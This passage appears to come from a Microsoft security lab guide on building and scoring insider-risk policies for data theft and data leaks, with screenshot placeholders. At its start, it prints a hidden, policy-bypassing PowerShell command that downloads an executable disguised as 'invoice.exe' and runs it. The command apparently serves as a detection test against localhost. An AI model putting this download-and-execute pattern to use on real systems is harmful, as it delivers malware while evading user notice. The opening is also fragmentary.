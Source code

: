 ```powershell.exe -NoExit -ExecutionPolicy Bypass -WindowStyleHidden $ErrorActionPreference= 'silentlycontinue';(New-ObjectSystem.Net.WebClient).DownloadFile('http://127.0.0.1/1.exe','C:\test-WDATP-test\invoice.exe');Start-Process 'C:\test-WDATP-test\invoice.exe'```
    select **Next**.

![A screenshot of a computer Description automatically
generated](./media/image131.png)

17. On **indicators** page, select **Next**.

![A screenshot of a computer Description automatically
generated](./media/image113.png)

18. On **Decide whether to use default or custom indicator thresholds**,
    select **Customise thresholds**, use **1**, **2**, and **3** events for each stage
    respectively then select Next.

![A screenshot of a computer screen Description automatically
generated](./media/image132.png)

19. On **Review settings and finish**, select **Submit**.

![A screenshot of a computer Description automatically
generated](./media/image133.png)

20. On **Your policy was created**, select **Done**.

![A screenshot of a computer Description automatically
generated](./media/image134.png)

21. Keep the tab open and continue to the next task.

#### Step 2 – Score the policy

1.  Click on the new policy named **Data theft by a user**. Select **Start
    scoring activity for users**.

![A screenshot of a computer Description automatically
generated](./media/image135.png)

2.  In the **Reason field in the Add users to multiple policies** pane,
    type **Testing the policy**.

![A screenshot of a computer Description automatically
generated](./media/image118.png)

3.  In the T**his should last for (choose between 5 and 30 days)** field,
    select **10** days.

4.  Use the **Search user to add to policies** field. Add **Patti**. Then click
    on **Start scoring activity**.

![A screenshot of a computer screen Description automatically
generated](./media/image136.png)

5.  Once you get the confirmation that you have started **Scoring
    activity for 1 users**, click **Close**.

![A screenshot of a computer Description automatically
generated](./media/image137.png)

### Task 3: Data leaks by users

#### Step 1 – Create a new policy

1.  If you closed the browser window in the previous task, open
```